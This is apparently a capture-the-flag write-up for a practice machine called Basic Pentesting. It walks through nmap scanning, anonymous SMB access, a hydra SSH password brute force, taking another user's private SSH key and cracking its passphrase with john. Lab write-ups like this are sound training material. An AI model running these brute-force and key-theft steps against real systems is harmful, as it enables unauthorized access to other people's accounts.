 # Basic Pentesting
> This is a machine that allows you to practise web app hacking and privilege escalation

# Start
# Recon
## Nmap
[nmap](nmap.txt)  
Open ports:
```
22 - ssh
80 - web (Apache httpd 2.4.18 ((Ubuntu)))
139 - smb
445 - smb
8009 - ajp13 (Apache Jserv (Protocol v1.3))
8080 - Apache Tomcat 9.0.7 default page
```

## Web
![web](web.png)  
**Source**:  
![source](source.png)

## Dirsearch
![dsearch](dsearch.png)  
We got an **interesting dir**

## Enum4linux
[enum4linux](enum4linux.txt)  

- Anonymous login on smb

## Smb
```
smbclient \\\\$IP\\Anonymous

mget staff.txt
```

We got the 2 users!

# SSH
## Cracking ssh pw
```
hydra -t 4 -l <user> -P ~/tools/wordlists/rockyou.txt ssh://$IP
```
![hydra](hydra.png)  
We got the pw!

## Getting in
```
ssh <user>@$IP
```
Just grab the other user2's *id_rsa* from `/home/<user2>/.ssh/id_rsa`  
We notice that this `id_rsa` is **encrypted** so we have to crack it!

### Cracking the id_rsa
We use `john` here...
```
ssh2john id_rsa > hash
john --wordlist=rockyou.txt hash
```
***We got the pw***

## Just ssh in with the id_rsa + the pw we got
```
ssh -i id_rsa <user2>@$IP
```

# Got the final flag from `~/pass.bak`
